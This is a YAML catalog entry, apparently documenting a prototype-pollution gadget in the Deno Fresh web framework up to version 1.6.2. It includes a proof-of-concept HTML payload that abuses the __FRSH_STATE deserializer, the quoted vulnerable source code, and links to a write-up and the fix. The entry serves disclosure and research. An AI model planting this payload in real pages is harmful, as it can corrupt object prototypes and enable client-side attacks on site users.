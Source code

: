 ```yaml
---
description: Fresh is a next generation web framework, built for speed, reliability, and simplicity.
github: denoland/fresh
gadgets:
  ≤1.6.2:
    authors:
      - twitter:arkark_
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - id-attr
      - before-lib-load
    pocs:
      - description: The [deserialize](https://github.com/denoland/fresh/blob/1.6.1/src/runtime/deserializer.ts#L21-L63) function in Fresh, which was used to parse the `__FRSH_STATE` content (retrieved through an `id` attribute), was vulnerable to prototype pollution.
        code: |
          <!-- constructor.prototype.polluted=foo -->
          <div id="__FRSH_STATE">{"v":{"bar":"foo"},"r":[[["bar"],["constructor","prototype","polluted"]]]}</div>
        preview: false
    links:
      - https://blog.arkark.dev/2023/12/28/seccon-finals/#web-lemonmd
      - https://github.com/denoland/fresh/commit/8583394481230dc177ed27ec4537055187cbf2ae
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/denoland/fresh/blob/3c43d98a5738a98301132c6152067d5762294569/src/runtime/client/partials.ts#L321">https://github.com/denoland/fresh/blob/3c43d98a5738a98301132c6152067d5762294569/src/runtime/client/partials.ts#L321</a>

      ```javascript
      const state = doc.querySelector(`#__FRSH_STATE_${id}`);
      let allProps: DeserializedProps = [];
      if (state !== null) {
        const json = JSON.parse(state.textContent!) as PartialStateJson;
        const promises: Promise<void>[] = [];

        allProps = parse<DeserializedProps>(json.props, CUSTOM_PARSER);

        for (let i = 0; i < json.islands.length; i++) {
          const island = json.islands[i];
          promises.push(
            import(island.chunk).then((mod) => {
              ISLAND_REGISTRY.set(island.name, mod[island.exportName]);
            }),
          );
        }

        await Promise.all(promises);
      }
      ```

      Source: <a target="_blank" href="https://github.com/denoland/fresh/blob/1.6.1/src/runtime/deserializer.ts#L21-L63">https://github.com/denoland/fresh/blob/1.6.1/src/runtime/deserializer.ts#L21-L63</a>

      ```javascript
      export function deserialize(
        str: string,
        signal?: <T>(a: T) => Signal<T>,
      ): unknown {
        function reviver(this: unknown, _key: string, value: unknown): unknown {
          if (typeof value === "object" && value && KEY in value) {
            // deno-lint-ignore no-explicit-any
            const v: any = value;
            if (v[KEY] === "s") {
              return signal!(v.v);
            }
            if (v[KEY] === "b") {
              return BigInt(v.d);
            }
            if (v[KEY] === "u8a") {
              return b64decode(v.d);
            }
            if (v[KEY] === "l") {
              const val = v.v;
              val[KEY] = v.k;
              return val;
            }
            throw new Error(`Unknown key: ${v[KEY]}`);
          }
          return value;
        }

        const { v, r } = JSON.parse(str, reviver);
        const references = (r ?? []) as [string[], ...string[][]][];
        for (const [targetPath, ...refPaths] of references) {
          const target = targetPath.reduce((o, k) => k === null ? o : o[k], v);
          for (const refPath of refPaths) {
            if (refPath.length === 0) throw new Error("Invalid reference");
            // set the reference to the target object
            const parent = refPath.slice(0, -1).reduce(
              (o, k) => k === null ? o : o[k],
              v,
            );
            parent[refPath[refPath.length - 1]!] = target;
          }
        }
        return v;
      }
      ```
---
```

